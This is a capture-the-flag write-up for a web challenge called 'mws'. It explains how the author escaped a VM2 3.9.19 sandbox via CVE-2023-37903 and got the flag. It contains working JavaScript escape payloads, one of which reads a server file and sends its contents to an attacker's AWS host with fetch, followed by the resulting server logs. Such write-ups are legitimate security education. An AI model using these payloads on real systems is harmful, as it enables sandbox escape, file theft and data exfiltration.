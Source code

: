 # mws

[library.m0unt41n.ch/challenges/mws](https://library.m0unt41n.ch/challenges/mws) ![](../../resources/web.svg) ![](../../resources/hard.svg) 

# TL;DR

> _Don't worry about the other users of our platform! We use state of the art_
> _sandboxing techonology for isolation! Docker? What is that? Our solution_
> _has no overhead, and that is way we are cheaper._

VM2 sandbox escape, reading the flag from local file and sending it via
HTTP request to attacker-controller remote server.

# Initial analysis

```bash
docker build -t app:latest .
docker run -p 3000:3000 -it app:latest
```

The app exposes:

*   `GET /` serves `index.html`
*   `GET /lambdas` returns JSON with lambdas of `mannheim` user
*   `POST /lambdas` takes `name`+`code` and adds a lambda for `mannheim`
*   `DELETE /lambdas/user/name`  deletes the lambda. No access control??
*   `GET /user/name` executes a lambda and returns the result

"Lambda" is just a piece of Javascript code, that has to define an `endpoint`
method which will be then executed inside a VM2-based sandbox.
An obvious reference to [AWS Lambda](https://aws.amazon.com/lambda/).

## Lambda management and execution

Lambdas are stored in a `lambdaRouter` object (`lambdaRouter.js`), with capability
to add, remove and execute. All lambdas have name and owner and all those created / executed
in the UI are owned by `mannheim` user. The `lambdaRouter` object is attached to
`GET /<user>/<lambda>` requests. As additional safeguard neither `user` nor `lambda`
can contain `/`.

Before executing the lambda, the user-provided code gets a `endpoint();` suffix,
which executes the method (`sandbox.js`). Note that this is not much of a limit, as
we can always end the code with `//`, effectively turning that into a comment.
So, all in all, we have arbitrary code execution in that sandbox.

## The flag

The flag is stored as a `get_flag` lambda, explicitly initialized in `index.js` and
owned by `admin` user. Its code has some additional safeguards to prefent it from
executing easily:

```javascript
lambdaRouter.add(new Lambda(
    'admin', 
    'get_flag', 
    `function endpoint(req) {
        result = "cyberskills23{this_is_a_fake_flag}";
        try {
            if (true) {
                throw new LambdaError("try harder: " + result);
            }
            return {
                status: 200,
                body: result
            }
    (...)
```

## Sandbox restrictions

In `sandbox.js`, the VM is started with following restrictions:

*   The parameters (`params`, `query` and `body`) are made read-only
*   The VM is given only **16 milliseconds** to execute.
*   Apart from default global objects and above params, only `console.log` and
    `LambdaError` objects are passed.


# VM2 3.9.19 vulnerabilities

VM2 sandbox version is fixed at 3.9.19 - which is the last one before it has been
[discontinued](https://github.com/patriksimek/vm2/issues/533), as the author could
not keep up with the vulnerabilities. According to
[security.snyk.io/package/npm/vm2](https://security.snyk.io/package/npm/vm2):

*   [Sandbox Escape in vm2@3.9.19 via Promise[@@species]](https://github.com/patriksimek/vm2/security/advisories/GHSA-cchq-frgv-rjh5)
    *   [CVE-2023-37466](https://www.cve.org/CVERecord?id=CVE-2023-37466) /
        [SNYK-JS-VM2-5772825](https://security.snyk.io/vuln/SNYK-JS-VM2-5772825)
    *   [PoC code](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9) /
        [ExploitDB](https://www.exploit-db.com/exploits/51898)
*   [Sandbox Escape in vm2@3.9.19 via custom inspect function](https://github.com/patriksimek/vm2/security/advisories/GHSA-g644-9gfx-q4q4)
    *   [CVE-2023-37903](https://www.cve.org/CVERecord?id=CVE-2023-37903) /
        [SNYK-JS-VM2-5772823](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823)
    *   [PoC code](https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd)

[This HTB challenge](https://0xdf.gitlab.io/2024/04/06/htb-codify.html) exploits some of them.
There is also an
[older write-up](https://www.vicarius.io/vsociety/posts/critical-vulnerabilities-in-vm2-sandbox),
but it explots vulnerabilities that were patched in 3.9.19.

# Getting the flag

At first, the vector of attack seems to be: get access to `lambdaRouter` via sandbox escape
and copy contents (`code`) from `get_flag` to a lambda that is accessible by a non-admin user.

> Spoiler alert: I could not get it to work &#128578; Not enough JS/NodeJS-fu.

## Sandbox escape

Out of two active vulnerabilities, considering the 16ms limit, the
CVE-2023-37903 looked more promising.  First, I made a proof of concept that we
have a sandbox escape at all:

```javascript
function endpoint(req) {
  const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
  obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
      obj = inspect.constructor('return globalThis.process')();
      log(obj);
    },
    valueOf: undefined,
    constructor: undefined,
  }
  r = WebAssembly.compileStreaming(obj).catch(()=>{});
  return {
    status: 200,
    body: "OK\\n"
  };
}
```

**That worked**. Inside that `inspect.constructor()` code string I could get all kinds of
global variables and log them to the console. The values were very different from those I got
when calling from the `endpoint()` method directly. The kinds of objects I got access to:

*   `globalThis.process.getBuiltinModule("module")`
*   `globalThis`
*   `process` (and then use it as `process.binding("fs")`, `process.binding("constants")`)
*   `fs`

However: **I found no way to access `lambdaRouter`**. My JS/NodeJS knowledge was not up to the task.
I did something way more brutal instead &#128521;

## Exfiltrating flag to external server

While the direct approach failed, I still had full sandbox escape - which included things like
reading files and creating network connections. My next idea was to just read the flag from the
source file and send it somewhere:

```javascript
globalThis.process.getBuiltinModule('fs').readFile(
    '/app/index.js',
    'utf-8',
    (err, data) => {
        fetch('http://MY.AWS.INSTANCE/' + data.match('(cyberskills23{[^}]+})')[0]);
    }
);
```

Turning this into JS payload for the "lambda":

```javascript
function endpoint(req) {
  const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
  obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
      obj = inspect.constructor("globalThis.process.getBuiltinModule('fs').readFile('/app/index.js', 'utf-8', (err, data) => {fetch('http://MY.AWS.INSTANCE/'+data.match('(cyberskills23{[^}]+})')[0]);});")();
    },
    valueOf: undefined,
    constructor: undefined,
  }
  r = WebAssembly.compileStreaming(obj).catch(()=>{});
  return {
    status: 200,
    body: "OK\\n"
  };
}
```

Then, on the AWS instance:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
MY.HOME.IP.ADDRESS - - [24/Dec/2024 08:25:55] code 404, message File not found
MY.HOME.IP.ADDRESS - - [24/Dec/2024 08:25:55] "GET /cyberskills23%7Bthis_is_a_fake_flag%7D HTTP/1.1" 404 -
```

So, this worked locally.

# Remote exploit

This was obviously not guaranteed to work in the public instance:

*   16ms execution limit might be too short to do all this (I'd expect remote instance to
    be much slower than my PC).
*   I did not know if the remote instance has access to the internet.
*   All in all this sounded a log like unintended solution / cheating.

But it worked &#128512;

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
128.140.62.133 - - [24/Dec/2024 08:33:55] code 404, message File not found
128.140.62.133 - - [24/Dec/2024 08:33:55] "GET /cyberskills23%7Bs4ndb0x_v3ry_s3cur3_1nd33d_45d39ef910a6%7D HTTP/1.1" 404 -
```

---

## `cyberskills23{s4ndb0x_v3ry_s3cur3_1nd33d_45d39ef910a6}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
